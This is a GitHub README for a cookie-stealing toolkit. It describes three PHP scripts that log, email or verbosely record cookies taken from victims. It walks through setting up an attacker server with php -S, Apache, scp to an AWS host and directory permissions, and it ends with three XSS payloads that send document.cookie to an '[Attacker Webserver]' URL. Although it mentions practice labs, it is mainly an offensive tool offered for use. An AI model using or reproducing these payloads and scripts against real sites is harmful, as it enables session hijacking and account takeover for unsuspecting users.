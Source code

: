 # hacksudo-cookies-stealer
<h2> 1 method </h2>
here we created PHP Cookie Stealing Scripts which use in XSS/stored/relfect

1. **Cookiesteal-simple.php** - Records whatever "c" parameter holds, in example case the **document.cookie string,** writes value to **log.txt.** 

2. **Cookiemail.php** - This version code will mail the cookies to hacker mail using the PHP() mail function with subject “Stolen cookies”.

3. Cookiesteal-v.php (**verbose**) - **Collects the IP address, port numbe**r, **host**(usually computer-name), user agent and cookie.

## How To Usage
**you can use PHP server**
<h3>php -S attackerIP:80</h3> ( user attacker ip , and port you can use 8080 also , <br> 
but remeber your apache2 must  stop now )
do this command at same path where you took your cookies script done your ready now ...
now find XSS site , for practice purpose you can use Beebox .<br>which is available at www.root-me.org , get XSS and use XSS paylaod which is given below of this README

enjoy :D 
www.hacksudo.com/contact

<br>vishal@hacksudo.com

<h2>2 method </h2>
1. On the remote attacker machine, start the webserver (Apache2 in example),
```
sudo service apache2 start
```
2. Git clone the repo locally and then push the chosen "Cookie stealer" PHP script from local host to the attacking machine

```
git clone https://github.com/hacksudo/hacksudo-cookies-stealer

cd hacksudo-cookies-stealer

sudo scp cookiestealer-simple.php username@AttackMachine:/var/www/html/

sudo scp log.txt username@AttackMachine:/var/www/html/
```
**AWS Version**:

```
scp -i AWS-Key.pem cookiesteal-simple.php ec2-user@ec2[YOUR IP].us-east-2.compute.amazonaws.com:~/.

sudo mv cookiestealer-simple.php /var/www/html/
```

Example: http://[Attacker Webserver]/cookiesteal-simple.php

##### Setting Permissions:

Figure out which user is owning httpd process using the following command:
```
ps aux | grep httpd
```
Output should be similar to this:
```
ec2-user  1569  0.0  0.1  12840  1064 pts/0    S+   17:55   0:00 grep httpd
```
So now you know the user who is trying to write files, which is in this case ec2-user You can now go ahead and set the permission for directory where your php script is trying to write something:
```
sudo chown ec2-user:ec2-user /var/www/html/

sudo chmod 755 /var/www/html/
```

_XSS Payload Examples_:
* <script javascript:text>document.location="http://[Attacker Webserver]cookiesteal-simple.php?c=" + document.cookie + "&t=Alert"; </script>

* <script>document.location='http://[Attacker Webserver]/cookiesteal-v.php?cookie=' + document.cookie</script>

* <img src=x onerror=this.src='http://[Attacker Webserver]/cookiesteal-v.php?cookie='+document.cookie>
